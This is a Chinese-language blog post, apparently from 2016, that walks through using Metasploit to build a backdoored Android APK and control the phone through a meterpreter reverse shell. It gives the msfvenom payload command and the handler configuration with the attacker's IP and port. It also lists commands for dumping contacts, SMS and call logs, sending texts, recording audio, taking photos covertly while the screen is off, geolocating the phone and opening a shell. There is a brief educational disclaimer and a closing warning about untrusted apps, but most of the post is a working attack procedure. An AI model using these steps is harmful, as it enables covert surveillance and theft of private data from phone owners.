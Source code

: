 ```yaml
---
layout: post
title: msf渗透android并植入后门
date: 2016-12-19 15:32:08
comments: true
tags:
	- 安卓
	- 安全攻防
---
```

## 前言
><font color="#ff0000">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**文中提及的部分技术，可能带有一定攻击性，仅供安全学习和教学用途，禁止非法使用！**</font>

## 正文
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msf原名Metasploit是一款开源的安全漏洞检测工具，可以帮助安全和IT专业人士识别安全性问题，验证漏洞的缓解措施，并管理专家驱动的安全性进行评估，提供真正的安全风险情报。这些功能包括智能开发，代码审计，Web应用程序扫描，社会工程 <!--more-->。团队合作，在Metasploit和综合报告提出了他们的发现。

### 环境
> * BackBox、kali linux、或者BackTrack(kali linux的前身)
> * 一台安卓设备


> 环境不说太多介绍了，直接来实战。
### 生成payload
> 装好环境后查看自己的ip
![](/images/pasted-10.png)

> 生成一个payload
>	
	msfvenom -p android/meterpreter/reverse_tcp LHOST=your_ip LPORT=your_port R > /root/apk.apk
>* p 设置要使用的payload
>* LHOST 设置用来接收反弹连接的主机
>* LPORT 设置用来接收反弹连接的端口

![](/images/pasted-11.png)

>很小，才8kb
>如果用的BackTrack，里面的msf是旧版本的了。旧版本的生成payload是msfpayload。
>生成的apk放到手机上安装，安装完成后是这样的。
>![](/images/pasted-12.png)

### 反弹shell
>启动msf
>![](/images/pasted-13.png)
>依次输入命令来设置paylod和反弹的ip以及反弹端口(ip和端口必须和生成payload时候的一致)
	* use exploit/multi/handler
	* set payload android/meterpreter/reverse_tcp
	* set LHOST 192.168.0.18 
	* set LPORT 2333
>![](/images/pasted-14.png)
> 设置完毕后就可以输入 `exploit` 来执行攻击了
>![](/images/pasted-15.png)

>可以看到msf会一直在监听本机的2333端口，等待着目标连接上线
>然后我打开我们刚刚安装的
>打开后会连接到msf
>![](/images/pasted-16.png)
>![](/images/pasted-17.png)
>这样我们就拿到了手机的shell

### 控制指令
>我来介绍几个有意思的指令。
	* check_root	#查看是否root
	* dump_calllog	#下载通讯记录
	* dump_contacts	#下载联系人
	* dump_sms		#下载短信
	* send_sms		#发送短信
	* record_mic	#录音
	* webcam_list	#查看手机摄像头
	* webcam_snap	#拍照
	* webcam_stream	#连续拍照
	* geolocate		#获取目标地理位置
	* upload		#上传文件到手机
	* download		#下载手机上的文件
	* shell			#进入手机的bash shell

##### check_root(检测root)
>![](/images/pasted-18.png)
>是root的设备

##### dump_contacts(下载联系人)
>![](/images/pasted-19.png)
>57个联系人
>![](/images/pasted-20.png)

##### dump_sms(下载短信)
>![](/images/pasted-21.png)
>1271条短信
>![](/images/pasted-22.png)

##### send_sms(发送短信)
> * -d目标电话号码
> * -t 短信内容
>![](/images/pasted-23.png)
>![](/images/pasted-24.png)

##### record_mic(录音)
> * -d 录音的秒数
> 音频文件会自动保存在/var/www/html/目录下
>![](/images/pasted-25.png)

##### webcam_list(检测摄像头)
>![](/images/pasted-26.png)
>2:前置摄像头
>1:后置摄像头

##### webcam_snap(拍照)
> * -i 选择使用哪个摄像头拍照
>手机息屏的时候也可以拍照
>![](/images/pasted-27.png)

##### webcam_stream(连续拍照)
> * -i 指定摄像头
> * -d 拍照间隔(默认1800毫秒)
> 使用目标手机摄像头连续拍照。会生成一个html文件,打开html，查看连续拍照照片
>![](/images/pasted-28.png)

##### geolocate(获取地理位置)
>![](/images/pasted-29.png)

##### upload(上传文件到手机)
>![](/images/pasted-30.png)

##### download(下载文件到手机)
>![](/images/pasted-31.png)

##### shell(进入手机bash shell)
>![](/images/pasted-32.png)

### 最后
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;这些操作都是可以在不用接触手机，而且手机也不会有任何提示下完成。所以同学们最好不要安装来历不明的app，后患无穷。
